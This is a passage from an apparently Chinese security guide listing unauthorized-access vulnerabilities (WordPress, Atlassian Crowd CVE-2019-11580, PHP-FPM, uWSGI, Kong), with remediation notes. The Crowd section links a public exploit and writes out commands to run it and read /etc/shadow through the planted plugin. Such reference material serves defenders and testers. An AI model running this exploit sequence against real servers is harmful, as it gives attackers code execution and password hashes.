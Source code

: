 更新宝塔phpmyadmin为最新版本

## 33. WordPress未授权访问漏洞

**漏洞复现**

可参考 [https://www.cnblogs.com/bflw/p/12342845.html](https://www.cnblogs.com/bflw/p/12342845.html)

## 34. Atlassian Crowd 未授权访问

**漏洞简介**

Atlassian Crowd是一套基于Web的单点登录系统。该系统为多用户、网络应用程序和目录服务器提供验证、授权等功能。Atlassian Crowd Data Center是Crowd的集群部署版。

Atlassian Crowd和Crowd Data Center在其某些发行版本中错误地启用了pdkinstall开发插件，使其存在安全漏洞。攻击者利用该漏洞可在未授权访问的情况下对Atlassian Crowd和Crowd Data Center安装任意的恶意插件，执行任意代码/命令，从而获得服务器权限。

**漏洞检测**

![](https://qqq.gtimg.cn/music/photo_new/T053XD0000464noI0b7ICy.jpg)

漏洞利用脚本github地址：https://github.com/jas502n/CVE-2019-11580

```
git clone https://github.com/jas502n/CVE-2019-11580

cd CVE-2019-11580/

python CVE-2019-11580.py http://192.168.18.138:8095

curl http://192.168.18.138:8095/crowd/plugins/servlet/exp?cmd=cat%20/etc/shadow
```

**漏洞修复**

设置访问/crowd/admin/uploadplugin.action的源ip。

升级最新版本(3.5.0以上)。

## 35. PHP-FPM Fastcgi未授权访问漏洞

详情请见：https://www.freebuf.com/articles/web/278245.html（第25条）

![](https://qqq.gtimg.cn/music/photo_new/T053XD00000K0puE413mf7.jpg)

## 36. uWSGI未授权访问漏洞

详情请见：https://www.freebuf.com/articles/web/278245.html （第27条）

![](https://qqq.gtimg.cn/music/photo_new/T053XD00001lV9xE0XNAEG.jpg)

## 37. Kong未授权访问漏洞(CVE-2020-11710)
